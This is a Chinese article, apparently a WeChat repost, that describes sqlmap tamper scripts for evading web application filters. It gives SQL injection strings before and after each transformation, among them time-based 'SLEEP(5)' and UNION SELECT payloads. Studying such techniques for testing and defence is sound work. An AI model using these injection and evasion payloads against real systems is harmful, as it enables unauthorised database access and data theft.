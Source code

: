 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/KvjeGVoPen7pO02tv3gxpw)

孤独是什么，洗了个头，吹了个好看的发型，换了双干净的鞋子，穿了件帅气的衣服，去超市买了一包烟和一瓶水然后就回家了。。。

\----  网易云热评

一、支持所有的数据库

1、apostrophemask.py

作用：用 utf8 代替引号

```
("1 AND '1'='1")替换后'1 AND %EF%BC%871%EF%BC%87=%EF%BC%871'
```

2、base64encode.py

作用：用 base64 编码替换

```
("1' AND SLEEP(5)#")替换后'MScgQU5EIFNMRUVQKDUpIw=='
```

3、multiplespaces.py

作用：围绕 SQL 关键字添加多个空格

```
('1 UNION SELECT foobar')替换后'1    UNION     SELECT   foobar'
```

4、space2plus.py

作用：用 + 替换空格

```
('SELECT id FROM users')替换后'SELECT+id+FROM+users'
```

5、nonrecursivereplacement.py

作用：双重查询语句

```
('1 UNION SELECT 2--')替换后'1 UNIOUNIONN SELESELECTCT 2--'
```

6、space2randomblank.py

作用：代替空格字符（“”）从一个随机的空白字符可选字符的有效集

```
('SELECT id FROM users')替换后'SELECT%0Did%0DFROM%0Ausers'
```

7、unionalltounion.py

作用：替换 UNION ALL SELECT UNION SELECT

```
('-1 UNION ALL SELECT')替换后'-1 UNION SELECT'
```
